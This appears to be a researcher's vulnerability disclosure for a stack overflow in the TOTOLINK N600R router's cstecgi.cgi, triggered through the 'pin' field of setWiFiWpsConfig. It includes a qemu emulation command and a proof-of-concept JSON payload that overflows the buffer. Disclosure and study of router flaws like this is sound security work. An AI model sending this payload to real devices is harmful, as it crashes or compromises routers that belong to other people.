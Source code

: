# TOTLINK-N600R-setWiFiWpsConfig-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a StackOverflow vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x41CAF4 contains a stack overflow vulnerability.

The stack overflow can be triggered by the pin key value, which leads to a sprintf overflow.

![image-20241216170904967](https://gitee.com/xyqer/pic/raw/master/202412191530577.png)

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=300 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"topicurl":"setWiFiWpsConfig","wscMode":"1","wscPinMode":"1","pin":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

## Attack result

![image-20241216160513615](https://gitee.com/xyqer/pic/raw/master/202412191516192.png)

![image-20241216160521569](https://gitee.com/xyqer/pic/raw/master/202412191516001.png)

﻿You can see that the stack length is only 0xD0, but we overflowed to 0xE8. If needed, we can overflow more. This overflow does not have a length limit. When using a longer overflow, you only need to modify the pin key value and the CONTENT_LENGTH size.